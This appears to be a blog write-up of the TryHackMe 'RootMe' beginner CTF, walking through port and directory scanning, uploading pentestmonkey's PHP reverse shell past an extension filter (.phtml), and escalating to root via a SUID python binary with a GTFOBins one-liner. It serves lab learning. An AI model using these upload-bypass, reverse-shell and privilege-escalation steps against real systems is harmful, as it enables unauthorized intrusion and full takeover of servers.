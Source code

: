 ```yaml
---
title: TryHackMe - RootMe
layout: post
categories:
- TryHackMe
tag: web, linux, security
image: "/assets/img/rootme.png"
image_alt: rootme
---
```


A ctf for beginners, can you root me?

<br>

## 1. Deploy the machine    

Connect to TryHackMe network and deploy the machine. If you don't know how to do this, complete the OpenVPN room first.

<br>

## 2 Reconnaissance 

First, let's get information about the target.

<br>

### 2.1 Scan the machine, how many ports are open?

Let's do a nmap scan.

```
$ nmap -sSCV 10.10.226.173
```

![nmap](/assets/img/tryhackme/rootme/nmap.png)

Two ports are open. These are **`22/tcp SSH and 80/tcp HTTP`**. 

**`Answer: 2`**


<br>

### 2.2 What version of Apache is running?

![apache](/assets/img/tryhackme/rootme/apache.png)

**`Answer: 2.4.29`**

<br>

### 2.3 What service is running on port 22?

**`Answer: SSH`**

<br>

### 2.4 Find directories on the web server using the GoBuster tool.

I am visiting the website running on port 80. I see a page like this:

![home](/assets/img/tryhackme/rootme/home.png)

Let's do a gobuster scan for this website.

```
$ gobuster dir -u http://10.10.226.173/  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

<br>

### 2.5 What is the hidden directory?

![gobuster](/assets/img/tryhackme/rootme/gobuster.png)

**`Answer: /panel/`**

<br>

---

<br>

## 3 Getting a shell  

Find a form to upload and get a reverse shell, and find the flag.

<br>

### 3.1 user.txt

I check the /uploads/ directory but nothing in here.

![uploads](/assets/img/tryhackme/rootme/uploads.png)

I am going to the /panel/ directory.

![panel](/assets/img/tryhackme/rootme/panel.png)

We upload files here. Then let's do this:
 - Let's download pentestmonkey's php-reverse-shell.php file. [Here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
   ```
   $ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
   ```
 - Now, edit the php-reverse-shell.php file.

   ![edit](/assets/img/tryhackme/rootme/edit.png)

 - Let's set up a netcat listener.

   ![nc](/assets/img/tryhackme/rootme/nc.png)

Now we can upload the file to the website. Let's go back to the /panel/ directory.

I try to upload the file but it's not working. I get error like this.

![error](/assets/img/tryhackme/rootme/error.png)

Let's try changing the extension of the PHP file. Like this:

![ex](/assets/img/tryhackme/rootme/ex.png)

If you want, you can try using burp suite, but there is not much possibility anyway, I prefer to change manually.

I will try these: `.php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml`

The `.phtml` worked.

Now, let's go to the /uploads/ directory and run the reverse shell we uploaded.

![upshell](/assets/img/tryhackme/rootme/upshell.png)

And we are inside.

![in](/assets/img/tryhackme/rootme/in.png)

Now we can get the user flag.
I looked at the user directories in the home directory, but could not find the user.txt.

Now let's find user.txt with this command.

![find](/assets/img/tryhackme/rootme/find.png)

```
$ find / -type f -name user.txt
```

Yes, we found the user.txt file.

![finduser](/assets/img/tryhackme/rootme/finduser.png)

Let's get the user flag.

![user-flag](/assets/img/tryhackme/rootme/user-flag.png)


_**Attention: It allows some files to be uploaded, but when you try to run it in the /uploads/ directory, you get something like this.**_

![uperror](/assets/img/tryhackme/rootme/uperror.png)

<br>

---

<br>

## 4 Privilege escalation   

Now that we have a shell, let's escalate our privileges to root.

<br>

### 4.1 Search for files with SUID permission, which file is weird?

_**Hint: find / -user root -perm /4000**_

Based on the hint, I ran the following code on the target system.

```
$ find / -type f -perm -04000 -ls 2>/dev/null
```

![suid](/assets/img/tryhackme/rootme/suid.png)

**`Answer: /usr/bin/python`**

<br>

### 4.2 Find a form to escalate your privileges.

_**Hint : Search for gtfobins**_

Let's go to [gtfobins](https://gtfobins.github.io/gtfobins/python/) and search for python. 

![gtfobins](/assets/img/tryhackme/rootme/gtfobins.png)

Let's run the following code on the target machine.

```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![privesc](/assets/img/tryhackme/rootme/privesc.png)

Yesss, We get root privilege. Now let's get the root flag.

![root-flag](/assets/img/tryhackme/rootme/root-flag.png)


<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
